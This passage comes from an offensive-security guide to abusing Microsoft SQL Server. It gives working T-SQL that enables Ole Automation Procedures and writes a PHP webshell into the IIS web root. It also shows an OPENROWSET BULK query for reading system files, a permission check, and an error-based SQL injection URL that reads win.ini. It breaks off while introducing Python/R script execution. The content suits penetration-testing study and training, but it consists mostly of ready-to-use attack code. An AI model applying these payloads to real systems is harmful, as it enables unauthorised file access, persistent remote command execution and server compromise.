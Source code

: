 ### **Write Files**

To write files using `MSSQL`, we **need to enable** [**Ole Automation Procedures**](https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/ole-automation-procedures-server-configuration-option), which requires admin privileges, and then execute some stored procedures to create the file:

```bash
# Enable Ole Automation Procedures
sp_configure 'show advanced options', 1
RECONFIGURE

sp_configure 'Ole Automation Procedures', 1
RECONFIGURE

# Create a File
DECLARE @OLE INT
DECLARE @FileID INT
EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
EXECUTE sp_OADestroy @FileID
EXECUTE sp_OADestroy @OLE
```

### **Read file with** OPENROWSET

By default, `MSSQL` allows file **read on any file in the operating system to which the account has read access**. We can use the following SQL query:

```sql
SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
```

However, the **`BULK`** option requires the **`ADMINISTER BULK OPERATIONS`** or the **`ADMINISTER DATABASE BULK OPERATIONS`** permission.

```sql
# Check if you have it
SELECT * FROM fn_my_permissions(NULL, 'SERVER') WHERE permission_name='ADMINISTER BULK OPERATIONS' OR permission_name='ADMINISTER DATABASE BULK OPERATIONS';
```

#### Error-based vector for SQLi:

```
https://vuln.app/getItem?id=1+and+1=(select+x+from+OpenRowset(BULK+'C:\Windows\win.ini',SINGLE_CLOB)+R(x))--
```

### **RCE/Read files executing scripts (Python and R)**

MSSQL could allow you to execute **scripts in Python and/or R**. These code will be executed by a **different user** than the one using **xp_cmdshell** to execute commands.

Example trying to execute a **'R'** _"Hellow World!"_ **not working**:
